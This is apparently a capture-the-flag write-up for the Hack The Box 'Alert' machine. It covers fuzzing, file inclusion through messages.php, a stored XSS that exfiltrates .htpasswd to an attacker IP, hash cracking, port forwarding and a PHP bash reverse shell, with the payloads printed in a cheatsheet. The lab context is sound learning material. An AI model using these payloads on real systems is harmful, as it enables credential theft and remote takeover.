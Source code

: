 # Alert \[Linux Easy]

## Report

A markdown visualizer website, running a script is the first thing that comes to mind. Vhost fuzzing shows a statistics vhost. Fuzzing for directories and files reveals a messages directory, messages.php and other stuff.

messages.php uses a parameter ?file to include files but how did we figure that out? Trial and error is what they say (file, page, document) This is our LFI endpoint. Now in our .md file we write a script to fetch a file and send to a http server that we host.

We still dont get the info here surprisingly, after visualizing we copy this link having our message and paste in the 'Contact Us' page and now we get a base64 encoded response.

Hashcat and we get a password. But what file did we use? .htpasswd is a thing apart from .htaccess. There is another file which gives you all the info you really need without the need to guess anything.

But knowing the filepath is a skill in itself i guess.

`/etc/apache2/sites-enabled/000-default.conf`

Once we get user access, netstat shows a localhost http page up, SSH port forward and we get access to the website.

Reading the readme file in the Application, located in the /opt directory, php can be executed in the directories within.

One quick php reverse shell and we are root.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}
Nice cheatsheet having many XSS payloads even tho this machine didn't need all that
{% endembed %}

## Cheatsheet

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.14:80?file_content=" + encodeURIComponent(data));
  }); 
</script>
```

```bash
ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://alert.htb:80 -H 'Host: FUZZ.alert.htb' -ac 
ssh -L 9091:localhost:8080 albert@10.10.11.44 -fN
<?php exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"'); ?>
```

## Proof

statistics returned with a code 401, we were so used to only accepting 200 right that was a surprise

ffuf dont work for URL fuzzing for some reason, so we use wfuzz&#x20;

HOW DO THAT JS SHI ONG BRO, learn js along the way ig like look up the shi you need specifically if it's file transfer&#x20;

> #### Simplified Flow
>
> 1. `fetch()` makes a request and gets a `Response` object (`response`).
> 2. `response.text()` extracts the response body as plain text.
> 3. The extracted text is passed to the next `.then()` block, where it's named `data`.
>
> #### Why the Variable Changes
>
> The variable names (`response` and `data`) are simply names chosen by the developer in the script to represent the value at each stage. The transformation happens because:
>
> * `response` is the initial HTTP response object.
> * `response.text()` processes the body of the response into a plain text string.
> * The result is passed to the next `.then()` as an argument, which is labeled `data`.
>
> **In `data => { fetch(...) }`:** The arrow function takes `data` as input (parameter) and performs an operation (sending the data to an external server).
>
> In short the arrow is just a simpler way of representing a function&#x20;
